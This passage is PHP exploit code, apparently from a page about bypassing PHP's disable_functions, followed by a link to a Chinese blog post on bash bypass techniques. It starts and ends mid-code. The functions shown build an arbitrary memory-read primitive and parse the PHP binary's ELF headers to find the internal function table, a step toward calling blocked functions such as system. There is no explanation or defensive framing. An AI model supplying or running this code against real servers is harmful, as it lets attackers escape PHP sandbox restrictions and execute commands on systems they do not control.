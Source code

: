 ```php
            $v >>= 8;
        }
    }

    function leak($addr, $p = 0, $s = 8) {
        global $abc, $helper;
        write($abc, 0x68, $addr + $p - 0x10);
        $leak = strlen($helper->a);
        if($s != 8) { $leak %= 2 << ($s * 8) - 1; }
        return $leak;
    }

    function parse_elf($base) {
        $e_type = leak($base, 0x10, 2);

        $e_phoff = leak($base, 0x20);
        $e_phentsize = leak($base, 0x36, 2);
        $e_phnum = leak($base, 0x38, 2);

        for($i = 0; $i < $e_phnum; $i++) {
            $header = $base + $e_phoff + $i * $e_phentsize;
            $p_type  = leak($header, 0, 4);
            $p_flags = leak($header, 4, 4);
            $p_vaddr = leak($header, 0x10);
            $p_memsz = leak($header, 0x28);

            if($p_type == 1 && $p_flags == 6) { 

                $data_addr = $e_type == 2 ? $p_vaddr : $base + $p_vaddr;
                $data_size = $p_memsz;
            } else if($p_type == 1 && $p_flags == 5) { 
                $text_size = $p_memsz;
            }
        }

        if(!$data_addr || !$text_size || !$data_size)
            return false;

        return [$data_addr, $text_size, $data_size];
    }

    function get_basic_funcs($base, $elf) {
        list($data_addr, $text_size, $data_size) = $elf;
        for($i = 0; $i < $data_size / 8; $i++) {
            $leak = leak($data_addr, $i * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                
                if($deref != 0x746e6174736e6f63)
                    continue;
            } else continue;

            $leak = leak($data_addr, ($i + 4) * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                
                if($deref != 0x786568326e6962)
                    continue;
            } else continue;

            return $data_addr + $i * 8;
        }
    }
```

[bash绕过方式]: https://blog.51cto.com/u_15127695/4278470	"bash绕过方式"